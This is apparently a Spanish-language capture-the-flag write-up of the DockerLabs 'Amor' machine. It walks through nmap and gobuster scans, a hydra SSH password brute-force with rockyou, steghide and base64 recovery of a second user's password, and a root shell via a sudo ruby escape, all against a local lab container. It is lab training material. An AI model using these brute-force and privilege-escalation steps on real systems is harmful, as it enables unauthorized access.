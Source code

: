#Amor DockerLabs - 15/05/2024

#web - https://dockerlabs.es/#/

Realizamos un escaneo de nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

Encontramos un puerto 80 al cual accedemos:

![Captura de pantalla 2024-05-15 185252](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/79eda3a9-5edc-4533-8754-6f427123fdd9)

Hacemos un escaneo de directorios con gobuster pero no encontramos nada:

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

Igualmente vemos a ver que tiene la pagina web y se ven reportes donde encontramos uno muy interesante:

![Captura de pantalla 2024-05-15 185307](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/2fcf8350-3dcf-4c12-9d5e-532b10445255)


Vemos un usuario "juan" despedido así que nos olvidamos de el y otro llamado "carlota"
Procedemos a hacer un ataque de fuerza bruta con hydra:

```shell
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-15 18:49:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-15 18:49:47
```

Nos encuentra la contraseña así que procemos a entrar con su usuario:

```shell
└─$ ssh carlota@172.17.0.2                                                
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

Intente hacer un "sudo -l" y un "find / -perm -4000 -user root 2>/dev/null" pero no hay nada explotable.
Buscando por los directorios encontramos:

```shell
carlota@602e73150064:~/Desktop/fotos/vacaciones$
```

Donde hay un archivo ".jpg" y nos lo descargamos en nuestra maquina local.

```shell
└─$ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Desktop/Machines/Amor/
```

Usamos steghide para encontrar la información oculta del archivo por si encontramos algo:

```shell
└─$ steghide extract -sf imagen.jpg
Enter passphrase: 
the file "secret.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "secret.txt".

```

```shell
└─$ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24
```

Encontramos algo así que lo vamos a desencriptar:

```shell
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
eslacasadepinypon
```

Pensando en que puede ser eso pensé que era una contraseña pero no encontraba otro usuario, intente con el usuario "root" pero nada, me meti otra vez al servidor ssh a navegar por los directorios y encontramos un usuario nuevo:

![Captura de pantalla 2024-05-15 185222](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/e3dcba9f-9a7d-435f-9259-6c033cda849b)

Entramos con el usuario "oscar" y su contraseña:

```shell
└─$ ssh oscar@172.17.0.2  
oscar@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

Vemos que podemos entrar y ahora intentamos escalar privilegios con este usuario a ver si con este podemos:

```shell
$ sudo -l
Matching Defaults entries for oscar on 602e73150064:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 602e73150064:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Vemos que podemos escalar privilegios, entramos en "https://gtfobins.github.io/gtfobins/env/".
Buscamos ruby y pegamos el comando de sudo en la terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'
```

```shell
# whoami
root
```
